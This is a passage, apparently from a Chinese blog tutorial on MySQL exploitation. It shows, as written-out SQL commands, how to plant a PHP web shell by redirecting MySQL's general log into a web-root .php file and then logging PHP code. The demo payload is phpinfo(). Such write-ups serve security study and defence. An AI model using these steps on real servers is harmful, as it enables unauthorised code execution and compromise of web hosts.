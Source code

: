 打开日志记录

```
set global general_log='on';
```

[![1607688092030](mysql提权/1607688092030.png)](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688092030.png)

然后改变日志的路径

```
set global general_log_file='C:\\phpStudy\\PHPTutorial\\WWW\\mysql_shell.php';
```

[![1607688384591](mysql提权/1607688384591.png)](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688384591.png)

之后随便执行一段php代码然后访问mysql_shell.php即可getshell

```
SELECT "<?php phpinfo();?>";
```

[![1607688523051](mysql提权/1607688523051.png)](http://cyzcc.vip/2020/12/01/MySQL相关利用及提权/1607688523051.png)
